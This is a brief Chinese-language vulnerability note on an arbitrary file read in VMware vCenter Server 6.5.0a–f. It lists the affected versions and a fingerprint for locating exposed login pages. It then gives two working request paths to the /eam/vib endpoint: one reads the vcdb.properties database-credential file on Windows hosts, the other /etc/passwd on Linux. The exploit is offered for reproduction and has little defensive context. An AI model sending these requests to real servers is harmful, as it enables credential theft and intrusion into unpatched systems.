

# VMware vCenter vid 任意文件读取漏洞

## 漏洞描述
VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、
## 漏洞影响
<a-checkbox checked> VMware vCenter Server 6.5.0a- f 版本</a-checkbox></br>
## 网络测绘
<a-checkbox checked> title="ID_VC_Welcome"</a-checkbox></br>

## 漏洞复现

登录页面


<a-checkbox checked> Windows主机</a-checkbox></br>

```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

<a-checkbox checked> Linux主机</a-checkbox></br>

```
/eam/vib?id=/etc/passwd
```



